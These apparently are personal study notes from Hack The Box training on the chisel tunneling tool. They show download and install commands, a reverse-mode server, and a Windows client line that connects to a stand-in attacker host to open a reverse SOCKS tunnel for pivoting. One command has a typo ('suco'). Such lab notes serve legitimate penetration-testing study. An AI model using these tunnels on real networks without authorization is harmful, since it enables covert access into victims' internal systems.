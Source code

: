 ########
chisel
########

Date: 2024-11-27 14:05

Status:

Tags: 

*************
Installation
*************

.. code-block:: console

   Temen@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
   Temen@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gz
   Temen@htb[/htb]$ sudo mv chisel_* /usr/bin/chisel && suco chmod +x /usr/bin/chisel

   Temen@htb[/htb]$ sudo ./chisel server --reverse 

************
Usage
************

Example 1: Run a server on port 1080

.. code-block:: console

   sudo chisel server --port 1080 --reverse


Example 2: Run a client to connect to the server

.. code-block::  console

   c:\tools\chisel.exe client <attack-host>:1080 R:socks

************
References
************
https://academy.hackthebox.com/module/147/section/1657
